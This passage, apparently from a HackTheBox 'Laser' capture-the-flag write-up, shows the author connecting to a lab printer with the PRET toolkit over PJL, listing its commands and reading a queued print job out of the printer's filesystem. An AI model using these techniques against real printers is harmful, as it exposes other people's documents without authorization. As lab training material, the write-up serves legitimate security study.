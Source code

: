 After reading up about the difference between the printer languages I decided that this one probably didn't speak the binary language of vaporators...I mean PCL.

```text
┌──(zweilos㉿kali)-[~/htb/laser/PRET]
└─$ python pret.py -o laser.pret 10.10.10.201 pjl
      ________________                                             
    _/_______________/|                                            
   /___________/___//||   PRET | Printer Exploitation Toolkit v0.40
  |===        |----| ||    by Jens Mueller <jens.a.mueller@rub.de> 
  |           |   ô| ||                                            
  |___________|   ô| ||                                            
  | ||/.´---.||    | ||      「 pentesting tool that made          
  |-||/_____\||-.  | |´         dumpster diving obsolete‥ 」       
  |_||=L==H==||_|__|/                                              

     (ASCII art by                                                 
     Jan Foerster)                                                 

Connection to 10.10.10.201 established
Device:   LaserCorp LaserJet 4ML

Welcome to the pret shell. Type help or ? to list commands.
10.10.10.201:/> help

Available commands (type help <topic>):
=======================================
append  delete    edit    free  info    mkdir      printenv  set        unlock 
cat     destroy   env     fuzz  load    nvram      put       site       version
cd      df        exit    get   lock    offline    pwd       status   
chvol   disable   find    help  loop    open       reset     timeout  
close   discover  flood   hold  ls      pagecount  restart   touch    
debug   display   format  id    mirror  print      selftest  traversal

10.10.10.201:/>
```

After testing all of the PCL commands and getting nothing I went back and tried the third language, PJL, and got another shell with many more commands available after using the `help` command.

```text
10.10.10.201:/> ls
d        -   pjl
10.10.10.201:/> cd pjl
10.10.10.201:/pjl> ls
d        -   jobs
10.10.10.201:/pjl> cd jobs/
10.10.10.201:/pjl/jobs> ls
-   172199   queued
10.10.10.201:/pjl/jobs> cat queued
b'VfgBAAAAAADOiDS0d+nn3sdU24Myj/njDqp6+zamr0JMcj84pLvGcvxF5IEZAbjjAH

...huge text wall snipped...

dgblOUDj6BOA+MLrAiC/chpVOipOMtlonY1lxELrGFvQKAO8RSMUZNovS5gkLUolUkX3X6OeCsYJRf20mrgSSQ'
```
